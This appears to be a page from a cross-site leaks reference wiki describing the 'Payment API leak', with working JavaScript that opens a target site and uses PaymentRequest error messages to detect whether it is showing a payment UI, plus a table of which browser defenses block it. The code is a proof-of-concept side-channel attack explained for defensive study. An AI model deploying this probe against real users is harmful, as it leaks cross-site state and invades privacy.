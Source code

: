+++
title = "Payment API leaks"
description = ""
category = "Attack"
abuse = []
defenses = []
menu = "main"
weight = 2
+++

## Detecting usage of Payment API
Because only one PaymentRequest UI is allowed to be visible the blocking can be detected. [^demo]
```javascript
const applePayMethod = {
    supportedMethods: "https://apple.com/apple-pay",
    data: {
        version: 3,
        merchantIdentifier: "merchant.com.example",
        countryCode: "US",
        merchantCapabilities: ["supports3DS"],
        supportedNetworks: ["visa"],
    },
}

const methods = [{supportedMethods: "basic-card"}, applePayMethod];
const details = {
    total: {
        label: "Total",
        amount: {
            currency: "USD",
            value: "1.00",
        },
    },
}

const sleep = (ms) => {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function paymentsUsage(URL) {
    return new Promise(async (r) =>  {
        if (!window.PaymentRequest){
            return r('PaymentRequest not supported.');
        }
        let w = open(URL);
        await sleep(2000);
        let request = new PaymentRequest(methods, details);
        request.show().catch((err) => {
                if(err.message == "Another PaymentRequest UI is already showing in a different tab or window.")
                    return r(1);
                else{
                    return r(0);
                }
            }
        )
        request.abort();
    });
    
}
```
{{< hint info >}}
Firefox doesn't currently support PaymentRequest.
{{< /hint >}}


## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|                                         ❌                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
## References

[^demo]: Detect if another tab is using the Payment API, [link](https://xsinator.com/testing.html#Payment%20API%20Leak)
